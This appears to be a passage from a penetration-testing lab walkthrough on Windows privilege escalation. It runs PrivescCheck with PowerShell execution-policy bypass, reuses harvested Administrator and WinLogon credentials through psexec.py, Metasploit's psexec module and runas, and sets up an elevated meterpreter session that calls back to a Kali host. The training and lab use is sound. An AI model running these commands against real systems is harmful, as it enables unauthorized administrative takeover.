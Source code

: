 **Identify privilege escalation vulnerabilities**

```bash
cd C:\\Users\\students\\Desktop\\PrivescCheck
dir # We have the PrivescCheck.ps1
shell
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck" # Check GitHub
# Script executed
```

We continue from where we left in the previous section. 
We got credentials like Username and Password.

Open a new terminal tab

```bash
psexec.py Administrator@<target-ip address>
# Now use the password
whoami
net user
whoami /priv
```

Now if we want to obtain an elevated meterpreter session and we have administrator credentials we can do this within the Metasploit framework. 

```bash
# Back to the first terminal tab
background
sessions # We have unprivilege meterpreter session

search psexec
use exploit/windows/smb/psexec
show options
set LHOST <kali-ip>
set LPORT <local_port>
set RHOST <target-ip>
set SMBUser Administrator
set SMBPAss <password identified>
# We should now receive an elevated meterpreter session
sysinfo
getuid
```

### 5.2. Windows: PrivescCheck

**Objective:** Gain Administrator user privilege and find the flag.

*In this example we have access to both Kali and target Windows machine.*

```shell
# Switch to the Victim machine
cmd
whoami
cd C:\Users\student\Desktop\PrivescCheck
ls

# Running PrivescCheck.ps1 script; it would take 1-2 minutes to finish
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# We have received the report and we can notice that we found WinLogon credentials. Investigate WinLogon output.

# We're launching the Command Prompt (cmd.exe) with administrator privileges using runas.exe and the admin credentials we previously discovered.
runas.exe /user:administrator cmd
<password>
whoami

```